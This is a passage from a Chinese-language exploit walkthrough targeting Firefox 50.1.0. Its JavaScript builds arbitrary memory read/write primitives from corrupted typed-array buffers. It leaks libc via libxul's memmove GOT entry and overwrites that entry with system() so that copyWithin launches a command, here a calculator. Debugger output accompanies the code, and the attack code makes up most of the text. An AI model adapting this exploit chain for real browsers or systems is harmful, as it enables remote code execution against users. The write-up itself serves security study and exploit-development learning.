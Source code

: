 还是一样，把buffer1 的`length` 改大，然后数据的指针指向 `libxul.so` 的`memmove got` ，读一下就可以得到内存中`memmove` 的指针啦，然后就可以计算偏移算出 `libc` 的基地址。构造的任意地址读写代码如下

```
function read64(addr)`{`
        a2_32 = new Uint32Array(buffer2);
        a2_64 = new Float64Array(buffer2);
        a2_32[10]=0x1000;
        a2_64[4]=i2f(addr/2);
        leak = new Float64Array(buffer1);
        return f2i(leak[0]);
    `}`
    function write64(addr,data)`{`
        a2_32 = new Uint32Array(buffer2);
        a2_64 = new Float64Array(buffer2);
        a2_32[10]=0x1000;
        a2_64[4]=i2f(addr/2);
        towrite = new Float64Array(buffer1);
        towrite[0] = i2f(data);
    `}`
    memmove_addr =  read64(memmove_got) ;
    libc_base =  memmove_addr -  0x14d9b0;
    system_addr = libc_base + 0x0000000000045390;
    print("libc_base "+hex(libc_base));
    print("system_addr "+hex(system_addr));
```

### <a class="reference-link" name="%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>代码执行

okay 现在已经有了任意地址读写的能力，基本上就可以做很多事情了， 在这个版本的firefox 下， libxul 的`memmove got` 还是放在可写的内存段, 这个时候就可以把它改成 `system` 的地址后续调用`copyWithin` 的时候就可以劫持控制流

```
pwndbg&gt; telescope 0x7fffecae9160                                                                   
00:0000│   0x7fffecae9160 —▸ 0x7ffff6e989b0 (__memmove_avx_unaligned) ◂— mov    rax, rdi           
01:0008│   0x7fffecae9168 —▸ 0x7ffff6d78e60 (tolower) ◂— lea    edx, [rdi + 0x80]                     pwndbg&gt; vmmap 0x7fffecae9160  
0x7fffecae9000     0x7fffecb40000 rw-p    57000 4b1e000 /usr/local/lib/firefox-50.1.0/libxul.so
```

想下面这样，`target` 存入`/usr/bin/xcalc` , 然后执行`target.copyWithin(0, 1);` 内存中会执行类似`memmove("/usr/bin/xcalc",1)`， 然后就可以弹计算器啦 (新版本的firefox 这里的`memmove got` 放在了rdata 段，默认不可写）

```
var target = new Uint8Array(100);
    var cmd = "/usr/bin/xcalc";
    for (var i = 0; i &lt; cmd.length; i++) `{`
            target[i] = cmd.charCodeAt(i);
        `}`
    target[cmd.length]=0;
    write64(memmove_got,system_addr);
    target.copyWithin(0, 1);
    write64(memmove_got,memmove_addr);
```
